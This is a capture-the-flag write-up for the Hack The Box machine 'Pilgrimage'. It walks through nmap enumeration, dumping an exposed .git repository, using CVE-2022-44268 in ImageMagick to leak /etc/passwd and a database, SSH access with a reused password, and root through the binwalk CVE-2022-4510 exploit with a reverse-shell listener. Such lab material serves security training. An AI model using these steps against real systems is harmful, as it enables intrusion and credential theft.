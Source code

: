 ```yaml
---
type: box
finished: "false"
writeup: "false"
---
```

# Info:
### IP: 
10.10.11.219
### Difficulty:
Easy

# Enumeration
with the nmap command `nmap -p- -sV -sC 10.10.11.219` we got this result:
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey: 
|   3072 20be60d295f628c1b7e9e81706f168f3 (RSA)
|   256 0eb6a6a8c99b4173746e70180d5fe0af (ECDSA)
|_  256 d14e293c708669b4d72cc80b486e9804 (ED25519)
80/tcp open  http    nginx 1.18.0
|_http-title: Did not follow redirect to http://pilgrimage.htb/
|_http-server-header: nginx/1.18.0
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```
So we know there's a SSH server, and a http server running nginx 1.18.0.
Going to the website we come to this page:
![website](images/website.png)

We have the option to log in, register or upload an image where it shows the shrunk version of that image. If we make an account and then log in we get a "Dashboard" tab that allows us to see all of the previous images that we have uploaded to the website.

# Git-Dumping
Here I was stuck for a while trying a bunch of stuff. Which is when I went back to enumeration. **Always go back to enumeration if you get stuck, don't tunnel vision because maybe you're missing something.** In my case I was missing an open .git repo on the 80 server. Since we didn't have the IP redirect link in our /etc/hosts nmap gave us this output `http-title: Did not follow redirect to http://pilgrimage.htb/` However if we run `nmap -p 80 -sV -sC 10.10.11.219` again, however this time only on port 80 while having the redirect in out /etc/hosts we get this output:

```
PORT   STATE SERVICE VERSION
80/tcp open  http    nginx 1.18.0
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: nginx/1.18.0
| http-git: 
|   10.10.11.219:80/.git/
|     Git repository found!
|     Repository description: Unnamed repository; edit this file 'description' to name the...
|_    Last commit message: Pilgrimage image shrinking service initial commit. # Please ...
|_http-title: Pilgrimage - Shrink Your Images
```

Now we know for sure there is a /.git/ folder on the server. Now we can use a tool like [Git dumper](https://github.com/arthaud/git-dumper)to extract all of the information from the git folder on to our own machine and take a look at the source code.

At first I thought there was a problem with the code, however everything seems sanitized. One thing we can keep in note for later though is that the databased is stored in `/var/db/pilgrimage` as we see in the code `$db = new PDO('sqlite:/var/db/pilgrimate');`.
![login](images/login.png)
But what is this `/var/ww/pilgimage.htb/magik`? Taking a close look at it by going into the git folder and going `./magik -version` we get this output:

```
Version: ImageMagick 7.1.0-49 beta Q16-HDRI x86_64 c243c9281:20220911 https://imagemagick.org
Copyright: (C) 1999 ImageMagick Studio LLC
License: https://imagemagick.org/script/license.php
Features: Cipher DPC HDRI OpenMP(4.5) 
Delegates (built-in): bzlib djvu fontconfig freetype jbig jng jpeg lcms lqr lzma openexr png raqm tiff webp x xml zlib
Compiler: gcc (7.5)
```

Googling `ImageMagick 7.1.0-49` I came across [a vulnerability with ImageMagick 7.1.0](https://www.metabaseq.com/imagemagick-zero-days/) This vulnerability was is based upon the -resize command within Magick, exactly what we are looking for. If we insert arbitrary code into the image, give it to Magick and then redownload it, we will get the output into the resized image. Let's try it first by making it print out `/etc/password` of the server with this script: **[CVE-2022-44268](https://github.com/voidz0r/CVE-2022-44268)**.

# ARBITRARY REMOTE LEAK with [CVE-2022-44268](https://github.com/voidz0r/CVE-2022-44268)

When we did `cargo run "/etc/passwd"` on the file we got an image with code injected into it. When we upload it to the server and download the "shrunken" version of it we can run `identify -verbose {image}` to get the outputting hex values of our input. Inputting it to something like [CyberChef](https://gchq.github.io/CyberChef/) and converting it from hex to ascii we get this output:
```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-network:x:101:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:102:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:109::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:104:110:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
emily:x:1000:1000:emily,,,:/home/emily:/bin/bash
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
sshd:x:105:65534::/run/sshd:/usr/sbin/nologin
_laurel:x:998:998::/var/log/laurel:/bin/false
```

Just for the fun of it I tried to also get the value of `/etc/shadow` however that did not get us any result because Magick is not allowed to read `/etc/shawdow`. What we can try is to **get the content of the `/var/db/pilgrimage` database as we saw from earlier.** Doing the same thing as earlier we get a bunch of hex values. Plugging that into cyberchef allows us to see the contents of it.

In a bunch of null values we get the sql code:
![table](images/table.png)

And *much* lower down we see this:
![usernames](images/usernames.png)

Our own account is which is the *creatively* named `asdfasd` with the password `asdf`.
More importantly we see the user `emily` from before with the password `abigchonkyboi123`. Classy.

With the knowledge that people use the same password everywhere, we can try to ssh into the machine with the username emily and password `abigchonkyboi123`.
![ssh](images/ssh.png)
**bingo**
Now we cat out the content of the user.txt.
# Privilege escalation with [CVE-2022-4510](https://www.exploit-db.com/exploits/51249)

Looking at the home directory we find some interesting files. Most notably pspy32 and binwalk_exploit.png. Looking at the pspy32 output we see that root is running something called `/sbin/malwarescan.sh`. Looking closer at that we see the following code:

```bash
#!/bin/bash

blacklist=("Executable script" "Microsoft executable")

/usr/bin/inotifywait -m -e create /var/www/pilgrimage.htb/shrunk/ | while read FILE; do
        filename="/var/www/pilgrimage.htb/shrunk/$(/usr/bin/echo "$FILE" | /usr/bin/tail -n 1 | /usr/bin/sed -n -e 's/^.*CREATE //p')"
        binout="$(/usr/local/bin/binwalk -e "$filename")"
        for banned in "${blacklist[@]}"; do
                if [[ "$binout" == *"$banned"* ]]; then
                        /usr/bin/rm "$filename"
                        break
                fi
        done
done
```

Here we see code being run every time something is changed in the `/var/www/pilgrimage.htb/shrunk/` directory with the help of the `inotifywait` command. We also see `/usr/local/bin/binwalk -e` being run on every file every time a change is done in that directory. Let's take a look at the binwalk version on this machine.

```
emily@pilgrimage:~$ binwalk -h                                                          

Binwalk v2.3.2                                                                          Craig Heffner, ReFirmLabs                                                               https://github.com/ReFirmLabs/binwalk     
```

If we look up ```binwalk v2.3.2``` we find a remote code execution vulnerbility is in binwalk version 2.3.2. Luckily the [script from exploit database](https://www.exploit-db.com/exploits/51249) is already downloaded on the machine in the `/tmp/` folder.

So all we have to do is to write is `python3 /tmp/51249.py catt.png {YOUR_IP} {YOUR_PORT}` and then start a netcat listener on that port. You will then get an image called `binwalk_exploit.png` in your folder and all you have to do now is copy it over with `cp binwalk_exploit.png /var/www/pilgrimage.htb/shrunk/` and boom.

![root](images/root.png)

# We're in (conclusion)
This is definitely the hardest box easy box I've done on hack the box. I was stuck on the first step for a long while, when I randomly decided to run the nmap scan again and saw the /.git/ directory. Everything was pretty good from there though. This is probably the best box I've done on HTB to date. I loved getting the user flag immensely. The root flag was a bit tricky, but learning to read the pspy32 output helped a ton.